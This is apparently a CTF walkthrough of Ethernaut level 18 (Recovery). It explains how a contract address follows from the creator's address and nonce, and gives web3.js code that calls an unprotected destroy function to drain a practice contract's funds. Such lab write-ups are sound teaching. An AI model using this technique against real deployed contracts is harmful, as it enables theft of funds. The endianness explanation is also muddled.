 # Ethernaut Level 18 (Recovery) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 18. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The lesson here is that the address of a contract is a function of the creator's address and its nonce. Specifically, it is the rightmost (least significant or little endian) 160 bits (20 bytes) of the Keccak256 hash of the RLP encoding of the creator address and nonce. One must always keep track of the nonce at the time this contract instance was made.
`bytes20(keccak256(RLPencode(creator_addr, nonce))`
On Web3 JS this can be done by:
`web3.utils.soliditySha3('0xd6','0x94',contract.address,'0x03');`
Or you can just visit etherscan and get the instance address from there as well.

#### Solution

Having fetched the contract address, just call the destroy function with any address to destroy drain the contract instance.

```
callStr = web3.eth.abi.encodeFunctionCall({
    name: 'destroy',
    type: 'function',
    inputs: [{
        type: 'address',
        name: '_to'
    }]
}, [player]);
```

Then, make the call
`web3.eth.sendTransaction({from: player, to: '0xD4048B53bf22e917B7b0dCf09cDf7dfC54a3F7c2', data: callStr})`